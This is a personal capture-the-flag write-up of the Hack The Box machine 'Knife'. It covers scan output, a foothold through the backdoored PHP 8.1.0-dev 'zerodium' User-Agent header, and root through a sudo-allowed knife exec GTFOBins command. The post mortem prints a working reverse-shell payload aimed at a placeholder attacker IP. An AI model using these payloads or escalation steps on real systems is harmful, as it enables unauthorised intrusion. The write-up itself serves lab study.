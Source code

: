 ```yaml
---
title: "Knife HTB"
date: 2021-07-28T17:30:30
categories:
  - writeup
tags:
  - Linux
  - HacktheBox
  - Backdoor
  - GTFOBin
  - PHP
classes: wide
---
```

Knife was at the time of this writeup's completion an active box, meaning it is the first I managed to do without any write up help. It required a LOT of googling, but was overall not too hard. The basic flow of scan, google, foothold, `sudo -l` came through. I just needed to not make some silly mistakes and the whole process could have been less painful. There is a Post Mortem at the bottom containing of my thoughts when revisiting this box now it has retired. The main body of the writeup contains my thoughts at the time of completing the box.

<h2>Enumeration</h2>
**Nmap scan results:**

```
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<h4>What is the scan telling us?</h4>

- Port 22 is open and running the usual ssh, specifically OpenSSH 8.2p1. Which seems to have some man in the middle(MitM) attack routes, but nothing suitable for this box. 
- Port 80 is showing Apache 2.4.41 which seems to have some vulns that can cause it to crash, but not much else. 
- Box is running on Ubuntu Linux which we knew already.

**Gobuster:**

```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/index.php (Status: 200)
/icons (Status: 200)
/icons/small (Status: 200)
```

**Nikto:**

```
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 7863 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-07-28 13:04:33 (GMT-4) (210 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Navigating to the website we see a fancy looking Emergency medical site, but no obvious avenues of attack.

<h2>Foothold</h2>

After searching for hours about possible OpenSSH 8.2.p1 Ubuntu, 4ubuntu0.2, and Apache 2.4.41 CVE's. A closer look at Nikto holds the answer.
Nikto reveals that the Apache header shows that the PHP version is 8.1.0-dev. Googling this reveals an exploit on exploitdb: [EDB-ID:49933](https://www.exploit-db.com/exploits/49933). Which allows RCE through a backdoor added through a compromised git.php.net server. 

We download the python script from the exploitdb page and run it with python3. This gives us a shell as "james" and we find the user flag in their home directory.


<h2>Privilege Escalation</h2>

After obtaining the user flag, running `sudo` -l shows that james can run:

```bash
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Googling this binary shows that "knife" is a part of a automation platform called "chef". Reading the [website](https://docs.chef.io/workstation/knife/) we see:

> *"The Chef Workstation includes other command line tools for interacting with Chef Infra. These include knife for interacting with the Chef Infra Server, and chef for interacting with your local chef code repository (chef-repo)."*

Reading the website we see a list of subcommands, including knife exec. This shows that knife can execute ruby commands. Further details can be seen from [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) which shows that `knife exec -E 'exec "/bin/sh"'` will run a ruby script to execute /bin/sh and obtain us root shell.
Attempting to run `sudo knife exec -E 'exec "bin/sh"'` leads to an error. 

After a large amount of trial and error it turns out the command is returning error because the shell from the previous script is not a TTY shell. Attempts to upgrade this shell lead to a non-responsive shell, a proper php reverse shell usually has no problems being upgraded. Maybe there is a method to upgrade the other one I'm not sure about, maybe by backgrounding it? 
More googling shows that a [script for reverse shell](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) has already been written by the same exploitdb author. 

We download the script, enter the parameters it requests in the format we request, open an nc listener, and run the script. We catch a tty shell! Now with our better shell, running the `sudo knife exec -E 'exec "/bin/sh"'` command gives us a root shell.
Navigating to the root folder we find root.txt and inside it... the root flag!
 
<h4>For next time:</h4>

- More careful attention to enumeration would have saved a lot of time. Searchsploit everything!
- Make sure that you have full TeleTYpewriter(tty) shell. I couldn't execute the knife privesc command because I hadn't upgraded the shell. 

---

<h2> Post Mortem</h2>
Now that the box has retired I am revisiting this writeup to add some study notes.

Actually reading the exploit I used at the time I find a lot of useful information. 
From the words of the [blog](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) written by flast101:

>*"taking a look at the added line 370 where zend_eval_string function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with ‘zerodium’.
Zerodium is a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself."*

Reading this it seems I could have gotten RCE manually by adding a system reverse shell one liner to the User-Agent after "zerodium" in burpsuite. This would have avoided the issues I had with trying to run the GTFOBins priv esc of `knife exec -E`. For the script to execute User-Agent must have two t's and the script must be after zerodium.
Ippsec shows this one line would look like: 

```
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'")
```

Overall not too hard of a box, and was such a great feeling completing my first active box. 